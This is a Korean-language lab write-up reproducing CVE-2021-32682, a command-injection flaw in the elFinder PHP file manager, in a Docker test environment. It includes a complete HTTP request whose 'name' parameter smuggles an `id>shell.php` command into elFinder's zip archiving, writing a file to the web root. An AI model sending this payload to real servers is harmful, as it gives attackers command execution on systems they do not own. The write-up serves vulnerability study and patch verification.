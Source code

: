 # CVE-2021-32682

## elFinder ZIP 인수 삽입으로 인해 명령 삽입 발생

elFinder는 jQuery UI를 사용하여 JavaScript로 작성된 웹용 오픈 소스 파일 관리자이다.

elFinder 2.1.48 및 이전 버전에서 인수 주입 취약점이 발견되었다. 이 취약점으로 인해 공격자는 최소한의 구성으로도 elFinder PHP 커넥터를 호스팅하는 서버에서 임의의 명령을 실행할 수 있다. 이 문제는 버전 2.1.59에서 패치되었다. 인증 없이 커넥터가 노출되지 않도록 주의해야 한다.

참고자료:
* https://blog.sonarsource.com/elfinder-case-study-of-web-file-manager-vulnerability
* https://packetstormsecurity.com/files/164173/elfinder_archive_cmd_injection.rb.txt
* https://xz.aliyun.com/t/10739

## 취약점 환경
elFinder 2.1.48을 시작하려면 아래 명령을 수행한다.

```
docker compose up -d
```

## Vulnerability Reproduce
먼저, 2개의 파일을 준비해야 한다. 아래와 같은 일반 텍스트 파일을 만든다.
<img src="https://github.com/mmingidan/WHS/blob/main/vulhub/make_txt.png?raw=true">


마우스 오른쪽 버튼 클릭 메뉴에서 이 파일을 ZIP 형식으로 보관하고 보관된 파일 이름을 아래와 같이 수정한다.
<img src="https://github.com/mmingidan/WHS/assets/102302841/db6212f2-a934-4a13-acc1-d506068da805">

txt 파일(a.txt)과 zip 파일(a.zip)이 모두 준비되었다.
<img src="https://github.com/mmingidan/WHS/blob/main/vulhub/file_fin.png?raw=true">



임의의 명령을 실행하기 위해서 아래와 같은 요청을 수행한다.
```
GET /php/connector.minimal.php?cmd=archive&name=-TvTT=id>shell.php%20%23%20a.zip&target=l1_Lw&targets%5B1%5D=l1_Mi56aXA&targets%5B0%5D=l1_MS50eHQ&type=application%2Fzip HTTP/1.1
Host: your-ip
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: http://localhost.lan:8080/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Connection: close
```

이 요청에서는 **3가지 중요한 매개변수**를 볼 수 있다.

- `name`은 임의의 명령으로 `-TvTT=id>shell.php # a.zip`을 수정할 수 있다. => `id>shell.php`
- `targets[0]`,  `l1_MS50eHQ. l1`첫 번째 저장 볼륨을 의미하며 MS50eHQbase64로 인코딩된 문자열이다. => `a.txt`
- `targets[1]`,  `l1_Mi56aXA. l1`첫 번째 저장 볼륨을 의미하며 Mi56aXAbase64로 인코딩된 문자열이다. => `a.zip`
이 요청은 오류 메시지에 응답했지만 명령이 실행되어 shell.php다음 위치에 기록되었다. `http://your-ip:8080/files/shell.php`.

<img src="https://github.com/mmingidan/WHS/blob/main/vulhub/web.png?raw=true">
